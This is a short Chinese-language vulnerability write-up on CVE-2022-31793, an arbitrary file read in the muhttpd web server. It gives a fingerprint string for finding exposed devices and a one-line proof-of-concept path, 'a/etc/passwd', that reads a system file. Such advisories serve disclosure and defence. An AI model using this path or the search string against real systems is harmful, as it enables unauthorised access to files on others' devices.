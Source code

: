 # muhttpd 任意文件读取漏洞 CVE-2022-31793

## 漏洞描述

muhttpd（mu-HTTP-deamon）是一个简单但完整的web服务器，用可移植的ANSI C编写。它支持静态页面、CGI脚本、基于MIME类型的处理程序和HTTPS。它在接受任何连接之前放弃特权，并且可以记录接收到的请求。它已经在GNU/Linux、NetBSD、FreeBSD、Mac OS X和Cygwin上进行了测试。它在32位和64位、小端和大端系统上成功运行。

muhttpd 1.1.7之前版本存在安全漏洞。攻击者利用该漏洞读取系统任意文件。

## 漏洞影响

<a-checkbox checked>muhttpd 1.1.7</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"2017 ARRIS Enterprises,"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1662196402060-ee53d3f5-654b-4fad-8344-3b540d2da4f4.png)

验证POC

```html
a/etc/passwd 
```

![img](../../../.vuepress/public/img/1662196427874-5ec5ef53-a14e-43f2-a9f8-205a1f8119de.png)